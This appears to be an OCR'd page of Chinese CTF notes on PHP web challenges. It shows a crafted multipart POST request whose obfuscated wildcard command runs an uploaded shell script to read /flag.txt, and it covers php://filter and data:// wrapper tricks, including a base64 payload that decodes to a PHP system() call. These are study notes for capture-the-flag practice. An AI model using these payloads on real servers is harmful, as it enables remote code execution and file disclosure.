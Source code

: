 ​        #! /bin/sh 指定命令解释器，#!是一个特殊的表示符，其后，跟着解释此脚本的shell路径。bash只是shell的一种，还有很多其它shell，如：sh,csh,ksh,tcsh。首先用命令ls /  来查看服务器根目录有哪些文件，发现有flag.txt，然后再用cat /flag.txt 即可。



请求头修改了三个地方

```php
POST /?cmd=?><?=`.+/??p/p?p??????`; HTTP/1.1
 
Content-Type: multipart/form-data; boundary=---------------------------10242300956292313528205888
 
-----------------------------10242300956292313528205888
Content-Disposition: form-data; name="fileUpload"; filename="1.txt"
Content-Type: text/plain
 
#! /bin/sh
 
cat /flag.txt
-----------------------------10242300956292313528205888--
```

# 15.php伪协议/文件包含

## file函数

![img](D:\MarkDown\CTF\CTFNotes\Perfect317\WEB\images\20210110135324804-1721131032936.png)

1.是格式
2.是可选参数，有read和write，字面意思就是读和写
3.是过滤器。主要有四种：字符串过滤器，转换过滤器，压缩过滤器，加密过滤器。filter里可以用一或多个过滤器（中间用|隔开），这也为解题提供了多种方法，灵活运用过滤器是解题的关键。这里的过滤器是把文件flag.php里的代码转换（convert）为base64编码（encode）
4.是必选参数，后面写你要处理的文件名

php://filter/read=convert.base64-encode/resource=index.php

php://filter/convert.base64-encode/resource=index.php

在绕过一些WAF时有用



php://filter/resource=index.php



## data命令

text=data://text:text/plain,内容

```
？file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs=

PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs ===> <?php system('cat flag.php');

```
